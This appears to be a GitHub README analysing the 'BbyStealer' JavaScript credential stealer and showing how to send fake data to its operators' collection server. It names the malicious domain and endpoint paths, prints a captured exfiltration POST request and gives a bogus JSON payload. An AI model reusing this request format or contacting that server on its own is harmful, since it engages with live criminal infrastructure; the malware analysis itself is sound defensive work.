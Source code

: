 
<!-- WARNING HTML -->

<table align="center">
  <tr>
    <th>Title</th>
  </tr>
  <tr>
    <td>BbyStealer</td>
  </tr>
</table>
<br></br>

<!-- WARNING HTML -->

Hello, did you heard about [BbyStealer](https://github.com/Green-Avocado/bbystealer-malware-analysis) ?
This is a shitty javascript malware to steal somes browsers passwords, cookies and target somes discord clients for your account token.
BbyStealer can download a malicious javascript code online to pick your discord creds with functions detouring.

## Start

**How many people thought of sending shit trought BbyStealer x)**

Let's see what we would need to do that:

- Get the BbyStealer key.
- Somes endpoints for sending the shitty data.
- Knowledge of scripting.

### How would I got the BbyStealer key ?

**Dynamic or static analysis ?**

The javascript malware is obfuscated, to be fast you can setup a vm and install [FakeNet](https://github.com/mandiant/flare-fakenet-ng), launch the malware and use FakeNet to get the request (The path is the key look like this key:jNQzkAMmc1Uy)


### Endpoints !

Right now we know somes existing endpoints with POST http method:

- [maliciousWebsite](https://superfuniestindianparty.rip)/jNQzkAMmc1Uy/tokens
- [maliciousWebsite](https://superfuniestindianparty.rip)/jNQzkAMmc1Uy

The request:

```

POST /jNQzkAMmc1Uy HTTP/1.1
Host: superfuniestindianparty.rip
Connection: keep-alive
Content-Length: 215
Access-Control-Allow-Origin: *
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) discord/1.0.9003 Chrome/91.0.4472.164 Electron/13.4.0 Safari/537.36
Content-Type: application/json
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: fr


**Our data in json format**

```

### How to send our fake data ?

To send our data, I made a simple payload look at this

```json
{"username":"discord.gg/miaou#0401","id":"Ajoute-moi","avatar":null,"badges":1,"email":"freeearlyavie@gmail.com","token":"FakeToken","type":"login","password":"UNEARLY"}
```

Lets re-use our request we got and put the fake data in!

## Ending

Thanks for reading this <3
